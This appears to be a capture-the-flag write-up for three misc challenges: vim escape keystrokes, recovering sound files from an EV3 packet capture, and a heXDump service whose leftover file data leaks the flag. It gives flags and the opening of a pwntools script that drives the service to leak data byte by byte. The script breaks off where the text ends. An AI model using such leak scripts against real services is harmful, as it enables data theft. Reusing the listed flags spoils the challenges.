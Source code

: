 ## Misc

### Revenge of Welcome

The challenge is to escape vim easy mode

`<C-l>:q!`
`<C-o>:q!`

flag : `hitcon{accidentally enter vim -y and can't leave Q_Q}`

### EV3 Player

Use wireshark to open the pklg file.

And install this plugin in wireshark.
https://github.com/ev3dev/lms-hacker-tools/tree/master/EV3

You would see these rsf file in the pklg.

```
../prjs/SD_Card/project/fl.rsf
../prjs/SD_Card/project/ag.rsf
```

Extract these two rsf from the pklg(I complete this step manually)

Install the LEGO Mindstorms to open the rsf sound file.

https://education.lego.com/en-us/downloads/mindstorms-ev3/software

![](https://i.imgur.com/hstSAQH.png)

And you can hear the flag:

`hitcon{playsoundwithlegomindstormsrobot}`



### heXDump

```
IO.popen("xxd -r -ps - #{@file}", 'r+') do |f|
    f.puts data
    f.close_write
  end
```

xxd didn't clear the original data, we can leak the flag one byte by one byte.

```python
#!/usr/bin/env python3
from pwn import *
import string

context.log_level = 'CRITICAL'

def cmd(x, data = None):
    global r

    while True:
        try:
            r.sendlineafter('0) quit\n', str(x))
            if x == 1 and data:
                r.sendlineafter('Data? (In hex format)\n', data.hex())
            elif x == 2:
                return r.recvline().strip()
            elif x == 3 and data:
                r.sendlineafter('- AES\n', data)
            return
```